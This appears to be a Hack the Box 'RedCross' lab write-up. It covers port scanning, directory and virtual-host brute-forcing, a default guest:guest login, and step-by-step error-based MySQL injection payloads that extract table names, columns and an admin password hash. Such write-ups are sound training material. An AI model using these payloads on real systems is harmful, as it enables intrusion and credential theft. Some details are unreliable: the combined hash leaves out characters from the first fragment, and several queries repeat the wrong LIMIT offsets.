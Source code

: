 # Hack the Box - RedCross
```CSS
Machine IP: 10.10.10.113 - Debian
```
## Reconnaisance
**Disover all open TCP ports**
```CSS
▶ nmap -Pn -sS -p- 10.10.10.113 -T4 --min-rate 1000 -oN nmap.surface
```

**Identify and scan running services on open ports**
```CSS
▶ sudo nmap -sV -sC -p 22,80,443 10.10.10.113 -oN nmap.deep 
```

---

## Application Mapping
![image](https://user-images.githubusercontent.com/83878909/229340988-396c149d-59a9-44df-8bb8-846e1a2e6f3b.png)

---

### Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb --wordlist /usr/share/wordlists/directories.txt --no-tls-validation --threads 25 --output intra-dir.out
```
![image](https://user-images.githubusercontent.com/83878909/229342980-9b448de6-1f32-417a-915b-d419ef3afc08.png)

### Recursive Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb/pages --wordlist Common-PHP-Filenames.txt --no-tls-validation --threads 25 --output intra-dir-pages.out 
```
![image](https://user-images.githubusercontent.com/83878909/229349757-4437bdf3-24b6-4b47-aa87-b392ff82f9da.png)

### Recursive Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb/documentation --wordlist directory-list-2.3-small.txt --no-tls-validation  --threads 25 --output intra-dir-pages.out --extensions pdf,txt 
```
![image](https://user-images.githubusercontent.com/83878909/229352633-afb50fcf-6b44-47a5-ad7d-327324b03a67.png)

---

## Virtual Host Brute-Force
```CSS
▶ wfuzz -H 'Host: FUZZ.redcross.htb' -u 'https://10.10.10.113' -w subdomains-top1million-5000.txt --hw 28
```
![image](https://user-images.githubusercontent.com/83878909/229351137-705a4132-e00b-45b5-b551-2f9a15acb448.png)

---

## Testing for SQL Injection
  - URL: `https://intra.redcross.htb/?page=login`
  - Capture the request in BurpSuite and copy it to a text file using `Copy to file`.
  - Run `sqlmap` with the captured request. 
![image](https://user-images.githubusercontent.com/83878909/229352907-4b619112-09b4-4d94-bb9e-af767ebf9e9a.png)
![image](https://user-images.githubusercontent.com/83878909/229352924-ffbba2d9-f739-43a1-b7fa-98c14ad39f6e.png)

### SQLMap
```CSS
▶ sqlmap -r login-request.txt --force-ssl --dbms mysql --batch
```
**NOT VULNERABLE**

---

## Testing for Default Credentials on Login Page
- Logged in as Guest.
- Working credentials: `guest:guest`.
![image](https://user-images.githubusercontent.com/83878909/229353512-1722be64-2483-4f6e-aa8c-ee2d70a9786a.png)

---

## Testing for SQL Injection
  - URL: `https://intra.redcross.htb/?page=app`
  - Capture the request in BurpSuite and copy it to a text file using `Copy to file`.
  - Run `sqlmap` with the captured request. 
![image](https://user-images.githubusercontent.com/83878909/229353680-3ca112d1-6c52-48ae-a39c-107c461459c9.png)

### SQLMap
```CSS
▶ sqlmap -r userid-filter-request.txt -p o --force-ssl --dbms mysql --batch
```
## Manual Testing
  - Inject a `'` after the `o` parameter in the query.
![image](https://user-images.githubusercontent.com/83878909/229354603-aef8edb5-23e7-40b8-8785-f45b4515d517.png)
  - Extract: Version information.
  - Query: `') and extractvalue(0x0a,concat(0x0a,version()))-- -`
![image](https://user-images.githubusercontent.com/83878909/229354803-2b283325-cc0c-4561-bceb-4a890f1a6e1d.png)
 ## Database Name 
  - Extract: Database name.
  - Query: `') and extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229359923-16a7107b-f98b-4294-8816-c672d7690dd6.png)
 ## Tables
  - Extract: Table names in the database `redcross`.
  - Query (Table 1): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 0,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360263-2a8cfc98-5fb3-4d9b-ab61-71836b0aae34.png)
  - Query (Table 2): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 1,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360434-d3ce41fa-586c-430a-b4f7-89549b2704e1.png)  
  - Query (Table 3): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 2,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360478-52232c71-b380-404e-a649-e99f5afa4759.png)
- Tables Found: messages, requests and users.

## Columns
  - Extract: Column names in the table `users`.
  - Query (Column 1): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 0,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364564-7f7b5fbe-e17b-4c60-b28e-e9c8b36a9e4a.png)
  - Query (Column 2): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364190-97f1d230-b4a4-45d8-900a-50c7707eb9fd.png)
  - Query (Column 3): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 2,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364271-a10fe1c5-7311-4d04-9c64-96141184e967.png)
  - Query (Column 4): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 3,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364423-652f1974-229c-49b6-a88c-e6d010103f4b.png)
  - Query (Column 5): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 5,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364516-a25c1339-8f3c-4d66-8691-251dab9d1289.png)
- Columns Found: id, username, password, mail and role.

## Usernames and Passwords
  - Extract: Usernames.
  - Query (User 1): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 0,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365056-4de5f991-d941-4753-9d09-866688fd02f2.png)
  - Query (User 2): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365145-8c217e2e-6269-46c4-a8c6-3eb3f79cc853.png)
  - Query (User 3): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365296-3ff1f74f-2180-4c29-8111-83d82aeaebf8.png)
  - Query (User 4): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365253-75ce97e6-d60d-4278-9881-9c0b5cc94add.png)

  - Extract: Passwords.
  - Query: `') and extractvalue(0x0a,concat(0x0a,(select password from redcross.users LIMIT 0,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229367688-1cf32661-e990-4ac2-b893-a29fb7746b17.png)
  - The above query returned the password for user `admin` however the passqord is not complete. The SQL query needs to be modified and then the password will be returned in two parts using two different queries.
  - Query1 : (User:admin - Password) - `') and extractvalue(0x0a,concat(0x0a,(select password from redcross.users LIMIT 0,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229367688-1cf32661-e990-4ac2-b893-a29fb7746b17.png)
  - Query2 : (User:admin - Password) - `') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 0,1) FROM 30)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229368328-a49d9ad2-7b8d-4023-8cc5-c77205eccbd7.png)
  - Combining Both: `$2y$10$z/d5GiwZuFqjY1jRiKIPzuPX` + `Kt0SthLOyU438ajqRBtrb7ZADpwq.` = `$2y$10$z/d5GiwZuFqjY1jRiKIPzuKt0SthLOyU438ajqRBtrb7ZADpwq.`
  - Creds: `admin:$2y$10$z/d5GiwZuFqjY1jRiKIPzuKt0SthLOyU438ajqRBtrb7ZADpwq.`
